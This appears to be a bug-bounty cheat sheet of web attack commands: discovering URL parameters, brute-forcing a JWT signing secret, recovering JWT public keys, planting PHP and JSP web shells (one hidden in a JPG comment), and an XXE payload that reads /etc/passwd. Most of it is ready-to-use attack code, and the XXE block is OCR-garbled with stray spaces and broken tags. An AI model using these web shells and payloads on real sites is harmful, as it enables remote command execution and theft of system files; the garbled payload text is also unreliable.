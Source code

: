 ## Extracting page parameters

```text
python3 paramspider.py --domain bugcrowd.com --exclude woff,css,js,png,svg,php,jpg --output bugcrowd.txt
```

## Examining the structure of parameters based on patterns of vulnerabilities

```text
gf xss domain.txt
gf potential domain.txt
```

## Guess the jwt symmetric encryption key

```text
jwt-cracker "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiYWRtaW4iOnRydWV9.TJVA95OrM7E2cBab30RMHrHDcEfxjoYZgeFONFh7HgQ" "abcdefghijklmnopqrstuwxyz" 6

Or


```


## public key guess jwt asymmetric encryption

```text
docker run --rm -it portswigger/sig2n <token1> <token2>
```

## Create web shell jpg

```text
giftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' meme.jpg
```

## Create web shell jsp

```text
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```

## Read file with xxe

```
<? xml\ version = "1.0"\ encoding = "UTF − 8"? >
< ! DOCTYPE\ abc\ [
< ! ENTITY\ ab\ SYSTEM\ "file:///etc/passwd" >
] >
< root >< name > &ab; </name >< tel > demo </tel >< email > demo@demo. com </email >< password > demo <
/password ></root >
```



{% include links.html %}
